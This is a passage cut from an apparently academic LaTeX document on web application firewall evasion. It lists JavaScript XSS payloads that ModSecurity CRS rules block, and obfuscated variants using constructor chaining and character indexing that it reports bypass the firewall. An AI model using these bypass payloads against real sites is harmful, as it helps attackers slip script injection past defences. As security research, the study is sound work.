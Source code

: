 \begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} payload, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using square bracket notation, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evaded the firewall.

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using dot notation, label={lst:stringreplacepass}]
[].constructor.constructor('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

\subsubsection{Forcing unicode normalization}
\label{sec:forcedunicodenorm}
As stated before, a payload containing the \verb|prompt()| function:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt('',secret)
\end{lstlisting}

is being blocked by the ModSecurity firewall using CRS4.1 according to the rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt("", secret)</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

